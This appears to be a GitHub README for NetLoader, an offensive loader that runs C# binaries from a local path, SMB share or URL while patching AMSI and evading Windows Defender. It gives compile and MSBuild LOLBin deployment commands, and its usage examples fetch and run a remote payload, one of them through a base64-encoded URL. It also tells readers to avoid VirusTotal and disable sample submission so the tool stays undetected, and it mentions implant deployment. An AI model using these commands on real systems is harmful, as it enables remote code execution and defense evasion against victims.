 # NetLoader
Loads any C# binary from filepath or url, patching AMSI and bypassing Windows Defender on runtime

Latest update / signature fix was 09.06.2020, clean as a whistle
I am doing 24/7 signature checks and pushing updates when possible so I can keep NetLoader undetected (mainly for my own educational purposes).
**Please do not upload to VirusTotal and DISABLE "Sample Submission" when testing / possible**

**Looking for binaries/payloads to deploy? Checkout [SharpCollection](https://github.com/Flangvik/SharpCollection)**!. SharpCollection contains nightly builds of C# offensive tools, fresh from their respective master branches built and released in a CDI fashion using Azure DevOps release pipelines.

# Compile

	c:\windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /t:exe /out:RandomName.exe Program.cs

# Deploy via LOLBin (MSBuild)

Payload for MSBuild is in the /LOLBins folder, might push this for varius other LOLBins aswell.
NetLoader has to be used in interactive mode when deployed using MSBuild

	For 64 bit:
	C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe NetLoader.xml

	For 32 bit:
	C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe NetLoader.xml

# Usage
Deploy payload from remote URI with args, non-interactive mode

	PS D:\NetLoader> .\NetLoader.exe https://github.com/Flangvik/NetLoader/raw/master/Binaries/Stracciatella.bin whoami
	[!] ~Flangvik  #NetLoader
	[+] Successfully patched AMSI!
	[+] URL/PATH : https://github.com/Flangvik/NetLoader/raw/master/Binaries/Stracciatella.bin
	[+] Arguments : whoami
	windef\tigerking
	PS D:\NetLoader>

Deploy payload from remote URI with args, interactive mode

	PS D:\NetLoader> .\NetLoader.exe
	[!] ~Flangvik  #NetLoader
	[?] Input X in 'path or url' to exit!
	[?] Input path or url ->
	https://github.com/Flangvik/NetLoader/raw/master/Binaries/Stracciatella.bin
	[?] Input args (optional) ->
	whoami
	[+] Successfully patched AMSI!
	[+] URL/PATH : https://github.com/Flangvik/NetLoader/raw/master/Binaries/Stracciatella.bin
	[+] Arguments : whoami
	windef\tigerking
	PS D:\NetLoader>

Deploy payload from local path or SMB share (note that NetLoader automatically detects whether the path provided is local or remote), non-interactive

	.\NetLoader.exe D:\Tools\Stracciatella.bin whoami
	[!] ~Flangvik  #NetLoader
	[+] Successfully patched AMSI!
	[+] URL/PATH : D:\Tools\Stracciatella.bin
	[+] Arguments : whoami
	windef\tigerking
	PS D:\NetLoader>


Supports base64 inputs for those long strings that would usually break stuff! (non-interactive)

	PS D:\NetLoader> .\NetLoader.exe --b64 aHR0cHM6Ly9naXRodWIuY29tL0ZsYW5ndmlrL05ldExvYWRlci9yYXcvbWFzdGVyL0JpbmFyaWVzL1N0cmFjY2lhdGVsbGEuYmlu d2hvYW1p
	[!] ~Flangvik  #NetLoader
	[+] Successfully patched AMSI!
	[+] URL/PATH : https://github.com/Flangvik/NetLoader/raw/master/Binaries/Stracciatella.bin
	[+] Arguments : whoami
	windef\tigerking
	PS D:\NetLoader>


# Todo
- [X]  Automate the build and release of many of the Sharp Tools so they automagically appear in ~~/Binaries~~ [SharpCollection](https://github.com/Flangvik/SharpCollection) (CDI / Azure DevOps)
- [X]  Add support for non-interactive use (input args)
- [X]  Add support to run custom modules from your own URL or SMB Share (Great for on-the-fly Implant deployment)
- [X]  Add an working MSBuild XML payload for the LOLBins lovers (Myself included)
- [X]  Update with credits and links to the github repos that ~~/Binaries~~ [SharpCollection](https://github.com/Flangvik/SharpCollection) are compiled from

# Credits
[_RastaMouse](https://twitter.com/_RastaMouse/) for the [AMSI bypass](https://github.com/rasta-mouse/AmsiScanBufferBypass/blob/master/ASBBypass/Program.cs)

